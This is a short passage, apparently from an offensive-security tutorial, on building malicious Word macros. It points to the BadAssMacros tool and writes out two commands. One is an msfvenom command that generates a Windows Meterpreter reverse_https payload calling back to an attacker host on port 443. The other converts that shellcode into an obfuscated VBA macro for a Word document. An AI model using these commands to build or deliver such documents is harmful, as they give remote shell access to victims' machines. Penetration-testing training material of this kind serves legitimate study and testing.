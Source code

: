### BadAssMacros

As usual this has been a massive 'from first principles' breakdown in order to check our understanding of the funamentals. In practice an exquisite tool exists to do most of the heavy lifting for us: `BadAssMacros`. The repo we get this from is here: https://github.com/Inf0secRabbit/BadAssMacros. See the `README.md` for a full breakdown of the flags.

The following command provides some sane defaults that will generate the raw text of the VBA Macro which we need to insert into our Word doc. Obviously we will potentially need to adjust these to our use case:

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.x.y LPORT=443 EXITFUNC=thread -f vbapplication > shellcode.txt
```
```powershell
.\BadAssMacrosx86.exe -i shellcode.txt -w doc -p no -s indirect -c 10 -o macro.txt
```